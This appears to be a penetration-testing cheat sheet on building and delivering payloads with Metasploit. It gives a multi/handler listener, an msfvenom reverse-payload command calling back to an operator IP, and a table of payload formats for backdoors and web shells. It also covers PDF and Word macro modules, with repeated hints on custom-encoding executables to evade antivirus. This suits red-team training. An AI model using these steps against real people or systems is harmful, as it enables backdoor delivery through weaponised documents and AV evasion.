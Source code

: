# Injecting Payload

## &#x20;Listener&#x20;

```bash
use exploit/multi/handler
```

## Msfvenom to other file

```bash
msfvenom -p <payload> LHOST=YOUR_IP LPORT=4444 -f exe -o payload.exe
```

{% embed url="https://www.clawnix.com/" %}

🧩 `msfvenom` Payload Format Table

| Format Type              | `msfvenom` Flag (`-f`) | File Extension | Typical Use Case                             |
| ------------------------ | ---------------------- | -------------- | -------------------------------------------- |
| **Windows Binary**       | `exe`                  | `.exe`         | Windows executable backdoor or dropper       |
| **Dynamic Link Library** | `dll`                  | `.dll`         | DLL injection or sideloading                 |
| **PowerShell Script**    | `ps1`                  | `.ps1`         | In-memory execution via PowerShell           |
| **Batch Script**         | `raw` (as `.bat`)      | `.bat`         | Simple batch-based payload delivery          |
| **Shellcode (C)**        | `c`                    | `.c`           | Inject into custom C programs                |
| **Shellcode (Python)**   | `python`               | `.py`          | Use with Python loaders                      |
| **Shellcode (Raw)**      | `raw`                  | `.bin`         | Custom loaders or memory injection           |
| **HTA Payload**          | `hta-psh`              | `.hta`         | Used in phishing and browser-based delivery  |
| **Java Payload**         | `jar`                  | `.jar`         | For exploiting Java apps or JNLP delivery    |
| **Android APK**          | _(no flag needed)_     | `.apk`         | Android device backdoor                      |
| **Linux ELF**            | `elf`                  | `.elf`         | Executable on Linux systems                  |
| **macOS Mach-O**         | `macho`                | `.macho`       | Payloads for macOS targets                   |
| **PHP Web Shell**        | `raw`                  | `.php`         | Upload to web servers for command execution  |
| **ASP Web Shell**        | `asp`                  | `.asp`         | Exploit ASP-based web servers                |
| **JSP Web Shell**        | `jsp`                  | `.jsp`         | Target Java-based web servers (Tomcat, etc.) |

## PDF Payload

### Metasploit exploits

📄 `exploit/windows/fileformat/adobe_pdf_embedded_exe`

* **Description**: Embeds an EXE into a PDF using **JavaScript** for execution.
* **Technique**: Leverages **JavaScript triggers** inside the PDF to execute the embedded EXE when the victim opens the file.
* **More reliable** on older versions of Adobe Reader where JavaScript execution is enabled.
* **More likely to be flagged** by AV or sandbox because JavaScript in PDFs is a red flag.

#### 🔥 Pros:

* Higher chance of execution **if JavaScript is allowed**.
* Can be more dynamic and interactive (e.g., auto-launch on open).

#### ❌ Cons:

* Depends on **JavaScript being enabled** in Adobe Reader.
* Newer versions of Adobe Reader **disable or restrict JS** by default.
* Easier for security tools to detect.

{% hint style="warning" %}
To encode the pdf to avoid AV we need to use a custom msfvenom exe and not the default exploit exe, that we encoded and then on the exploit settings we set the exe
{% endhint %}

***

📄 `exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs`

* **Description**: Same as the above but **without JavaScript**.
* **Technique**: Embeds the EXE inside a PDF **without using JS to trigger it**.
* Requires **manual interaction** by the victim (e.g., double-clicking a file icon inside the PDF).
* Less suspicious to AV because it doesn’t rely on script-based triggers.

#### 🔥 Pros:

* **Better AV evasion** — no JavaScript means fewer red flags.
* **Works even if JavaScript is disabled** in Adobe Reader.

#### ❌ Cons:

* **Less reliable** because it depends on user interaction.
* May be harder to convince someone to execute the embedded EXE.

{% hint style="warning" %}
To encode the pdf to avoid AV we need to use a custom msfvenom exe and not the default exploit exe, that we encoded and then on the exploit settings we set the exe
{% endhint %}

## &#x20;MS Word Payload

```
use exploit/windows/fileformat/office_word_macro
```

* Generates `.doc` file with VBA macro that drops & runs a payload.
* Works regardless of Office version **if macros are enabled**.
* AV may catch the macro or payload — obfuscation is key.

{% hint style="warning" %}
To encode the word file to avoid AV we need to use a custom msfvenom exe and not the default exploit exe, that we encoded and then on the exploit settings we set the exe
{% endhint %}
